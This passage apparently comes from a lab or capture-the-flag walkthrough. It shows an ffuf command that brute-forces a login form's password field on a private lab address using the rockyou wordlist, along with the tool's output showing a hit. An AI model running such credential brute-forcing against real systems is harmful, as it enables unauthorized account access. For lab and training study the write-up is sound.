![VMBreaker](/assets/images/hacking/2024/03/08.png)
{: .text-justify}
Stop scanning, change value p1 to password and run command again.
{: .text-justify}
```bash
ffuf -H "Content-Type: application/x-www-form-urlencoded" -w /usr/share/wordlists/rockyou.txt:PARAM -d "password=PARAM" -u http://172.16.1.161:80/ -ac 

#         /'___\  /'___\           /'___\       
#       /\ \__/ /\ \__/  __  __  /\ \__/       
#       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
#         \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
#         \ \_\   \ \_\  \ \____/  \ \_\       
#           \/_/    \/_/   \/___/    \/_/       

#       v2.1.0-dev
# ________________________________________________

# :: Method           : POST
# :: URL              : http://172.16.1.161:80/
# :: Wordlist         : PARAM: /usr/share/wordlists/rockyou.txt
# :: Header           : Content-Type: application/x-www-form-urlencoded
# :: Data             : password=PARAM
# :: Follow redirects : false
# :: Calibration      : true
# :: Timeout          : 10
# :: Threads          : 40
# :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
# ________________________________________________

# ********              [Status: 302, Size: 1837, Words: 692, Lines: 74, Duration: 5ms]
# [WARN] Caught keyboard interrupt (Ctrl-C)
```
# 05. Webpage enumeration
### 01. screen
![HTTP](/assets/images/hacking/2024/03/09.png)
### 02. screen